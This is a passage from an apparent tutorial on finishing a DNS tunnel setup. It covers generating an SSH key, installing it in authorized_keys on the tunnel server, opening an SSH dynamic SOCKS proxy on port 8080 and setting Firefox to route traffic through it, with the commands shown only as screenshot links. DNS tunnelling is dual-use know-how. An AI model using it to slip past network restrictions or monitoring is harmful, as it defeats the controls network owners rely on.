

**Success!**

Now we are about half-way done. Our HTTP over DNS is not fully setup yet. 

First, we need to generate a SSH key and upload the content of **id_rsa.pub** to our DNS Tunnel Server in the **authorized_keys** file. Here are the steps. 



This is the content of **id_rsa.pub**



Here you can see that I added the **id_rsa.pub** content to the **authorized_keys** on my DNS Server. This will allow me to SSH into my Server.



Now we can SSH to our DNS Tunnel Server with option -D 8080



Almost there, now we just need to open our browser (Firefox in this case) and  change the proxy settings. There are also browser extensions such as  FoxyProxy or Proxy SwitchyOmega.

For the Proxy options, we need to select 'Manual proxy configuration'.

Set the SOCKS Host with the IP address '127.0.0.1' and for Port number to '8080'.



**Done!**

We are now using HTTP over DNS... If we go to myip.is we should see our DNS Tunnel Server's Public IP Address.

